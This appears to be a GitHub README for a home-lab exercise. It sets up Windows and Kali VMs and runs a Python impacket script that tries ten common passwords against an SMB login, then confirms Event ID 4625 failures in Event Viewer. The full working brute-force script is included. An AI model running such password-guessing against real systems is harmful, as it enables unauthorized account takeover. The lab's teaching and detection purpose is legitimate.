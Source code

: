 # smb-brute-force
🚨 SMB Brute Force Script with Python (Internal Network)
This project demonstrates how to launch a brute force attack using the SMB protocol within a virtual internal network. It targets a Windows machine and verifies login failures via Event Viewer logs (Event ID 4625).

📌 About the Project
This project simulates a brute force attack using Python and SMB protocol between two virtual machines on the same NAT network in VirtualBox. It sends multiple login attempts to the Windows VM and verifies failed attempts through Event Viewer.

⚠️ This is for educational purposes only. Do not run this on unauthorized systems.

📡 What is SMB?
SMB (Server Message Block) is a network protocol mainly used for sharing files, printers, and other resources in a Windows environment. It allows applications to read/write to files and request services over a network.

In this project, we exploit the SMB login mechanism by sending multiple password attempts using Python.

⚙️ Setup Instructions
1. 🖥 Create a NAT Network
Open VirtualBox > Tools > Network > NAT Networks.

Click Create to make a new NAT network.
📸 ![image](https://github.com/user-attachments/assets/f06ff4b7-acc7-4ae7-87bb-cca64a2bf616)


2. 🖥 Assign NAT Network to VMs
Assign the newly created NAT network to both Windows and Kali Linux VMs via Settings > Network > Adapter 1 > Attached to: NAT Network.

📸 Screenshot Placeholder

3. 🔍 Find IP Addresses
On Windows, open Command Prompt and run:

bash
Copy
Edit
ipconfig
On Kali, run:

bash
Copy
Edit
ifconfig
Write down both IPs.
Example:

Windows IP: 10.0.2.4

Kali IP: 10.0.2.5

4. 🔐 Enable SMB on Windows
Search and open Windows Defender Firewall with Advanced Security.

Go to Inbound Rules.

Enable the following:

File and Printer Sharing (SMB-In)

File and Printer Sharing (Echo Request - ICMPv4-In)

📸 Screenshot Placeholder

🐍 SMB Brute Force Script
Create a Python script (attack.py) in Kali Linux:

python
Copy
Edit
from impacket.smbconnection import SMBConnection
import time

target_ip = input("Enter target IP address: ")
username = input("Enter username to brute force: ")

passwords = [
    "password123", "123456", "admin", "letmein", "qwerty",
    "welcome", "password1", "abc123", "12345678", "admin123"
]

for i, password in enumerate(passwords, 1):
    try:
        print(f"[{i}] Trying password: {password}")
        conn = SMBConnection(target_ip, target_ip)
        conn.login(username, password)
        print(f"\n[✔] SUCCESS: Password is '{password}'")
        break
    except Exception as e:
        print(f"[✘] Failed login with: {password} - {e}")
        time.sleep(1)
else:
    print("\n[!] All 10 password attempts failed.")
Install dependencies if not already available:

bash
Copy
Edit
pip install impacket
🚀 Running the Attack
On Kali VM:

bash
Copy
Edit
nano attack.py
# Paste the code and save it
python3 attack.py
Enter:

Victim's IP (e.g., 10.0.2.4)

Username to attack (e.g., Administrator)

📸 Screenshot Placeholder

The script will attempt 10 password logins over SMB.

📑 Verifying the Attack
On Windows VM:

Open Event Viewer from search.

Navigate to:

nginx
Copy
Edit
Windows Logs > Security
Look for Event ID: 4625, which indicates logon failures.

📸 Screenshot Placeholder

If the brute force worked, you will see 10 failed logon attempts matching the passwords used in the script.

🖼️ Screenshots
Organize these screenshots in your GitHub repo:

arduino
Copy
Edit
📁 screenshots/
├── nat-network.png
├── firewall-rules.png
├── kali-script-run.png
├── event-viewer-4625.png
Embed them like:

md
Copy
Edit
![NAT Network Setup](screenshots/nat-network.png)
⚠️ Disclaimer
This script is intended for educational and ethical hacking purposes only.
Do NOT use this on systems without explicit permission.
